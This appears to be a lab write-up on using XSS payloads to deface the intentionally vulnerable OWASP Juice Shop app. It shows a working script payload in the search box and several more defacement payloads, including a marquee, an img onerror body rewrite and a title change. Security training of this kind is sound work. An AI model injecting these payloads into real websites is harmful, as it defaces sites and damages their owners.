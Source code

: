 # Stored XSS for Website Defacement
 ## Objectives
> Use a stored XSS payload to visually deface part of the vulnerable site.
> This simulates an attacker injecting malicious HTML/JS to embarrass a brand or disrupt the UI.

I submitted this payload in Juice shop searchbox
```js
<h1 style='color:red; font-size:50px;'>Hacked by Cybernerrrrddd 💀</h1>
<script>
document.body.style.backgroundColor = 'black';
document.body.style.color = 'lime';
</script>
```
And it was executed to the screen. 
I tried the same payload in the review boxes under the products and
the payload got stored buut wasnt rendered or executed by the browser or DOM

This was because:
- Review boxes may sanitize or filter inputs unless the stored content is rendered unsafely.
- But in search, the payload is reflected directly into the DOM (often unsanitized), which is why my XSS executes immediately.

My successful attack was due to search being vulnerable to DOM-based or reflected XSS, 
while reviews worked for stored XSS only if the app renders it directly without sanitizing or escaping it.

## some other payloads
```html
<marquee behavior="scroll" direction="left">You got hacked 😈</marquee>
```
```html
<img src=x onerror="document.body.innerHTML='<h1>Defaced!!</h1>'">
```
```js
<script>
document.title = 'Hacked 💀';
document.querySelector('h1').innerText = 'Juice Shop Compromised!';
</script>
```
